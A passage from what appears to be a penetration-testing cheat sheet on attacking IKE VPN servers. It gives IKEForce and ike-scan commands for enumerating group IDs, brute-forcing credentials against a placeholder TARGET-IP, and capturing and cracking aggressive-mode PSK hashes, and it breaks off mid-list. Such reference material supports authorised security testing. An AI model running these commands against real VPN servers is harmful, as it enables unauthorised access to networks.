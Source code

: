 <h4 id="ikeforce">
IKEForce
</h4>
<p>
Use IKEForce to enumerate or dictionary attack VPN servers.
</p>
<p>
Install:
</p>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>pip install pyip
git clone https://github.com/SpiderLabs/ikeforce.git
</code></pre>
:::
::::

<p>
Perform IKE VPN enumeration with IKEForce:
</p>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic
</code></pre>
:::
::::

<p>
Bruteforce IKE VPN using IKEForce:
</p>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1
</code></pre>
:::
::::

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>ike-scan
ike-scan TARGET-IP
ike-scan -A TARGET-IP
ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key
</code></pre>
:::
::::

<h4 id="ike-aggressive-mode-psk-cracking">
IKE Aggressive Mode PSK Cracking
</h4>
<ol>
<li>
Identify VPN Servers
</li>
<li>
Enumerate with IKEForce to obtain the group ID
</li>
<li>
Use ike-scan to capture the PSK hash from the IKE endpoint
</li>
<li>
Use psk-crack to crack the hash
</li>